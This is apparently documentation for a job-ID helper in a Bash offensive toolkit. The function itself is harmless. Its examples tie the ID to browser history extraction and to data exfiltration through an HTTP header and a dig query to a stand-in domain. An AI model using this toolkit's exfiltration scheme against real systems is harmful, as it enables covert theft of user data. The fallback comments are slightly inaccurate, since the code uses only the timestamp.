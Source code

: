 # Generate Job ID Function

## Overview
The `core_generate_job_id()` function creates a unique 8-character hexadecimal identifier for tracking script execution across logging, exfiltration, and debugging operations.

## Function Signature
```bash
core_generate_job_id()
```

## Parameters
- **Inputs**: None
- **Outputs**: 8-character hexadecimal job ID (e.g., "a1b2c3d4")
- **Side Effects**: None

## Implementation
```bash
# Purpose: Generate a unique job ID for tracking script execution
# Inputs: None
# Outputs: 8-character hexadecimal job ID
# Side Effects: None
core_generate_job_id() {
    # Use openssl to generate random hex string for job tracking
    # Fallback to date-based ID if openssl not available
    if command -v "$CMD_OPENSSL" > /dev/null 2>&1; then
        $CMD_OPENSSL rand -hex 4 2>/dev/null || {
            # Fallback: use timestamp and process ID
            $CMD_PRINTF "%08x" "$(($(date +%s) % 4294967296))"
        }
    else
        # Fallback: use timestamp and process ID
        $CMD_PRINTF "%08x" "$(($(date +%s) % 4294967296))"
    fi
}
```

## Usage Examples

### Basic Usage
```bash
# Generate a job ID at script startup
JOB_ID=$(core_generate_job_id)
echo "Job ID: $JOB_ID"
# Output: Job ID: a1b2c3d4
```

### In Logging Context
```bash
# Used in log entries for correlation
core_log_output "Starting browser history extraction" "info" false
# Log entry includes: [job:a1b2c3d4] ...
```

### In Exfiltration Context
```bash
# Used to correlate exfiltrated data chunks
core_exfiltrate_data "$output_data"
# HTTP headers include: X-Job-ID: a1b2c3d4
```

## Fallback Behavior

### Primary Method
- Uses `openssl rand -hex 4` for cryptographically secure random generation
- Produces true random 8-character hex strings

### Fallback Method
- Uses timestamp-based generation when OpenSSL unavailable
- Formula: `printf "%08x" "$(($(date +%s) % 4294967296))"`
- Still provides unique IDs based on execution time

## Integration Points

### Global Variable Assignment
```bash
# At script initialization in base.sh
JOB_ID=$(core_generate_job_id)
```

### Logging Integration
```bash
# Used in core_log_output function
printf "[job:%s] %s\n" "$JOB_ID" "$message"
```

### Exfiltration Integration
```bash
# HTTP headers
-H "X-Job-ID: $JOB_ID"

# DNS queries
dig "data-$JOB_ID.example.com"
```

## Security Considerations

### Randomness Quality
- Primary method uses OpenSSL's cryptographically secure random generator
- Fallback method provides time-based uniqueness (not cryptographically secure)
- 8-character hex provides 4.3 billion possible values

### Information Disclosure
- Job IDs are transmitted in logs and exfiltration
- Consider operational security when using in sensitive environments
- IDs help correlate activities but may reveal script execution patterns

## Dependencies
- **Required**: `date` command (POSIX standard)
- **Optional**: `openssl` command (for secure random generation)
- **Variables**: `$CMD_OPENSSL`, `$CMD_PRINTF`

## Error Handling
- Graceful fallback when OpenSSL unavailable
- No error conditions - always returns valid 8-character hex string
- Silent fallback maintains script execution flow

## Performance
- **Primary**: ~5ms (OpenSSL execution)
- **Fallback**: ~1ms (date calculation)
- **Memory**: Minimal (single function call)
- **Network**: None

## Testing
```bash
# Test primary method
if command -v openssl > /dev/null 2>&1; then
    job_id=$(core_generate_job_id)
    echo "Generated: $job_id"
    # Should output 8 hex characters
fi

# Test fallback method
CMD_OPENSSL="/nonexistent/openssl"
job_id=$(core_generate_job_id)
echo "Fallback: $job_id"
# Should output 8 hex characters based on timestamp
``` 